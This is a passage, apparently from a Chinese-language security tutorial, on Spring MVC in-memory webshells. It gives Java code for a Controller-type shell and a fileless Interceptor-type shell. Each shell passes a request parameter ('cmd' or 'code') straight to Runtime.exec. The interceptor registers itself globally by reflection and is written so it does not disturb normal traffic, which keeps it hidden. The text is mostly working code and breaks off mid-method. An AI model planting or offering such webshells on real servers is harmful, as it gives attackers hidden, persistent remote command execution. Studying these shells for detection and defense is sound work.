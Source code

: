 ```
    // 第二个构造函数
    public InjectToController(String aaa) `{`
    `}`

    public void test() throws IOException `{`
        // 获取请求
        HttpServletRequest request = ((ServletRequestAttributes) (RequestContextHolder.currentRequestAttributes())).getRequest();
        // 获取请求的参数cmd并执行
        // 类似于PHP的eval($_GET["cmd"])
        Runtime.getRuntime().exec(request.getParameter("cmd"));
    `}`
`}`
```

注意网上给出的这部分代码在高版本SpringMVC中无效，并且找不到合适的替代。这部分代码的目的是防止注册重复path，这种问题其实不需要这种复杂处理，对上文中`/good`部分的path替换为`/Go0D`等组合即可，因为正常的业务代码不可能定义这类特殊的path

```
Class.forName("org.springframework.web.servlet.handler.AbstractHandlerMethodMapping$MappingRegistry").getDeclaredField("urlLookup");
```

这是Controller形的内存马，同时存在Interceptor型的内存马。Interceptor名为拦截器，类似Filter，常用于处理权限问题，有兴趣的师傅可以尝试

```
public class TestInterceptor extends HandlerInterceptorAdapter `{`
    public TestInterceptor() throws NoSuchFieldException, IllegalAccessException, InstantiationException `{`
        // 获取context
        WebApplicationContext context = (WebApplicationContext) RequestContextHolder.currentRequestAttributes().getAttribute("org.springframework.web.servlet.DispatcherServlet.CONTEXT", 0);
        // 从context中获取AbstractHandlerMapping的实例对象
        org.springframework.web.servlet.handler.AbstractHandlerMapping abstractHandlerMapping = (org.springframework.web.servlet.handler.AbstractHandlerMapping) context.getBean("org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerMapping");
        // 反射获取adaptedInterceptors属性
        java.lang.reflect.Field field = org.springframework.web.servlet.handler.AbstractHandlerMapping.class.getDeclaredField("adaptedInterceptors");
        field.setAccessible(true);
        java.util.ArrayList&lt;Object&gt; adaptedInterceptors = (java.util.ArrayList&lt;Object&gt;) field.get(abstractHandlerMapping);
        // 避免重复添加
        for (int i = adaptedInterceptors.size() - 1; i &gt; 0; i--) `{`
            if (adaptedInterceptors.get(i) instanceof TestInterceptor) `{`
                System.out.println("已经添加过TestInterceptor实例了");
                return;
            `}`
        `}`
        TestInterceptor aaa = new TestInterceptor("aaa");  // 避免进入实例创建的死循环
        adaptedInterceptors.add(aaa);  //  添加全局interceptor
    `}`

    private TestInterceptor(String aaa) `{`
    `}`

    @Override
    public boolean preHandle(HttpServletRequest request, HttpServletResponse response, Object handler) throws Exception `{`
        String code = request.getParameter("code");
        // 不干扰正常业务逻辑
        if (code != null) `{`
            java.lang.Runtime.getRuntime().exec(code);
            return true;
        `}` else `{`
```